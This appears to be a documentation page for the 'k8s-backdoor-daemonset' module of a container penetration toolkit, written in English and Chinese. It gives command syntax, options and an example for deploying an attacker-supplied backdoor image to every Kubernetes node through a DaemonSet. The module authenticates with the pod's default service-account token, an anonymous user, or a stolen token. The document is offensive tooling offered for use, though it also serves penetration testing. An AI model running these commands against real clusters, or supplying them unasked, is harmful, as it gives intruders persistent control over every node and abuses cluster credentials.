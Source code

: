 Deploy target backdoor image to each node via daemonset.
   
通过daemonset将用户指定的后门镜像部署到每个node。
  
## Usage
```
./cdk run k8s-backdoor-daemonset (default|anonymous|<service-account-token-path>) <image>

Request Options:
default: connect API server with pod's default service account token
anonymous: connect API server with user system:anonymous
<service-account-token-path>: connect API server with user-specified service account token.

Exploit Options:
<image>: your backdoor image (you can upload it to dockerhub before)
```

## Example

Deploy a pod with image:ubuntu to each node:
  
```
./cdk run k8s-backdoor-daemonset default ubuntu
```

![png](https://static.cdxy.me/cuimage/20210116192222_GUdlqc_Screenshot.jpeg)
